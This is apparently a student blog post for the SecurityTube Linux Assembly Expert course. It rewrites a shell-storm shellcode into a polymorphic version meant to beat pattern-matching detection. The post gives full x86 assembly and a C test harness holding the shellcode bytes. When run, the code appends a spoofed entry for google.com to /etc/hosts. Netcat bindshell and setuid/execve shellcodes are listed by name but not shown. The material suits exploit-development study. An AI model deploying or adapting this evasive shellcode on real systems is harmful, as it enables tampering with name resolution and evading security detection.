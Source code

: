 ```yaml
---
title: SLAE Exercise 6
tags: SLAE
key: 20190620
comments: true
---
```


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification:
<http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html>

Student ID: SLAE - 1470

All code can be found in: <https://github.com/xMilkPowderx/SLAE-Code>

### Assignment Six:

1. Take up 3 shellcodes from Shell--Storm and create polymorphic versions of them to beat pattern matching
2. The polymorphic versions cannot be larger 150% of the existing shellcode
3. Bonus points for making it shorter in length than original

### Linux/x86 - Add map in /etc/hosts file - 77 bytes
http://shell-storm.org/shellcode/files/shellcode-893.php

After inspected the shellcode, I thought to myself, why don't I just use another jmp call pop to the address storing /etc/hosts to ebx? As such, I created this polymorphic version of shellcode which have the same length as the original one. Notice that I put the new _load_name: under _load_data: instead is because put the new function above cannot terminate the file name properly. Causing the systemcall not able to open the file. Another point to notice is that do not include any word that has the word "file" in it. It seems that the objdump bash code that help us to extract shellcode will trim away any code with this word in it. This actually cause my shellcode fail to execute when I convert it to the c program. So, lesson learnt, know what you tools really do is very important.

Below is the polymorphic version of my shellcode
```
global _start

section .text

_start:
	xor ecx, ecx
	mul ecx
	mov al, 0x5
	push ecx
	;push 0x7374736f	    ;/etc///hosts
	;push 0x682f2f2f
	;push 0x6374652f
	jmp short _load_name	;We will use another jmp call pop to replace it instead

_open:
	;mov ebx, esp
	pop ebx	
	mov cx, 0x401		    ;permmisions
	int 0x80		        ;syscall to open file

	xchg eax, ebx
	push 0x4
	pop eax
	jmp short _load_data	;jmp-call-pop technique to load the map

_write:
	pop ecx
	;push 20		;length of the string, dont forget to modify if changes the map
	;pop edx
	mov dl, 20		;edx remain 0x0 at this point
	int 0x80		;syscall to write in the file

	push 0x6
	pop eax
	int 0x80		;syscall to close the file

	push 0x1
	pop eax
	int 0x80		;syscall to exit

_load_data:
	call _write
	google db "127.1.1.1 google.com"

_load_name:			;Original named _load_file, which cause the objdump bash strip away the opcode
	call _open
	hosts db "/etc/hosts"
```

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex6-1.JPG"/>

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc9\xf7\xe1\xb0\x05\x51\xeb\x35\x5b\x66\xb9\x01\x04\xcd\x80\x93\x6a\x04\x58\xeb\x0f\x59\xb2\x14\xcd\x80\x6a\x06\x58\xcd\x80\x6a\x01\x58\xcd\x80\xe8\xec\xff\xff\xff\x31\x32\x37\x2e\x31\x2e\x31\x2e\x31\x20\x67\x6f\x6f\x67\x6c\x65\x2e\x63\x6f\x6d\xe8\xc6\xff\xff\xff\x2f\x65\x74\x63\x2f\x68\x6f\x73\x74\x73";

int main()
{
	printf("Shellcode Length:  %d\n", strlen(code));
	int (*ret)() = (int(*)())code;
	ret();
}
```

The length of the shellcode is the same as original. After we execute it, a new entry was added to the hosts file.

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex6-2.JPG"/>

### Linux/x86 - netcat bindshell port 8080 - 75 bytes
http://shell-storm.org/shellcode/files/shellcode-684.php
### Linux/x86 - setuid(); execve(); exit(); - 44 bytes
http://shell-storm.org/shellcode/files/shellcode-549.php